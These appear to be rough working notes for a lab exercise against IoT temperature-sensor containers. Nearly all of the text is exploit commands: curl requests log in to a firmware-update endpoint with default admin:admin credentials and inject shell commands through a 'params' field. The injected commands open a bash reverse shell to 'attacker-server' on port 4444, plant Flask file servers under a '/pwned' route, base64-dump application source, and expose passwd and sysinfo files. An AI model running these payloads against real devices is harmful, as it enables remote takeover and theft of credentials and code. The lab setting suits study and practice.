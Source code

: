 curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url":"http:///localhost:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
     http://localhost:12381/firmware/update


# Instructions
> Install curl on sensors

> install `apt-get update && apt-get install -y netcat-traditional` on attacker.

> Enter the attacker bash shell using `docker-compose exec attacker-server /bin/bash`. 

Alternative if above fails:

# Alternative packages if the above fails
```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; apt-get update && apt-get install -y netcat || apt-get install -y netcat-openbsd || apt-get install -y nc"}' \
    http://localhost:12381/firmware/update
```


Run the following on the attacker device:
`I cannot run nc -lvnp 4444 on the attacker instance, how to install nc?`

```bash
nc -lvnp 4444
```

And the following to get ssh access to the temp sensor:
curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; bash -c \"bash -i >& /dev/tcp/attacker-server/4444 0>&1\" > /tmp/reverse.log 2>&1 &"}' \
    http://localhost:12382/firmware/update
{
  "command": "/bin/bash /tmp/firmware/dummy.sh ; bash -c \"bash -i >& /dev/tcp/attacker-server/4444 0>&1\" > /tmp/reverse.log 2>&1 &", 
  "message": "Firmware updated successfully", 
  "new_version": "1.2.3", 
  "path": "/tmp/firmware/dummy.sh", 
  "status": "success"
}


-- Other
```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo \"from flask import Flask, send_from_directory, send_file\\napp = Flask(__name__)\\n@app.route(\\\"/pwned/<path:filename>\\\")\\ndef serve_pwned(filename):\\n    return send_from_directory(\\\"/tmp/pwned\\\", filename)\\n\\nif __name__ == \\\"__main__\\\":\\n    app.run(host=\\\"0.0.0.0\\\", port=8888)\" > /tmp/pwned_server.py && python /tmp/pwned_server.py > /dev/null 2>&1 &"}' \
    http://localhost:12381/firmware/update
```

curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo \"from flask import Flask, send_from_directory, send_file\\napp = Flask(__name__)\\n@app.route(\\\"/pwned/<path:filename>\\\")\\ndef serve_pwned(filename):\\n    return send_from_directory(\\\"/tmp/pwned\\\", filename)\\n\\nif __name__ == \\\"__main__\\\":\\n    app.run(host=\\\"0.0.0.0\\\", port=8888)\" > /tmp/pwned_server.py && python /tmp/pwned_server.py > /dev/null 2>&1 &"}' \
    http://localhost:12381/firmware/update

curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; cd /tmp/pwned && python -m http.server 8888 > /dev/null 2>&1 &"}' \
    http://localhost:12381/firmware/update


  --

  curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo \"from flask import send_from_directory\nfrom app import app\n\n@app.route(\"/pwned/<path:filename>\")\ndef pwned_files(filename):\n    return send_from_directory(\\\"/tmp/pwned\\\", filename)\" > /app/pwned_route.py && cd /app && python -c \"import pwned_route\" &"}' \
    http://localhost:12381/firmware/update


--
curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo \"from flask import send_from_directory\nfrom app import app\n\n@app.route(\"/pwned/<path:filename>\")\ndef pwned_files(filename):\n    return send_from_directory(\\\"/tmp/pwned\\\", filename)\" > /app/pwned_route.py && cd /app && python -c \"import pwned_route\" &"}' \
    http://localhost:12382/firmware/update
----


curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo \"APP_CONTENT: $(base64 /app/app.py)\""}' \
    http://localhost:12381/firmware/update




curl -X POST -u admin:admin -H "Content-Type: application/json" \
    -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo \"APP_CONTENT: $(base64 /app/app.py)\""}' \
    http://172.28.0.4:12380/firmware/update


  http://localhost:12382/pwned/sysinfo.txt
http://localhost:12381:8888/pwned/passwd.txt
http://localhost:12381:8888/pwned/app.py.txt
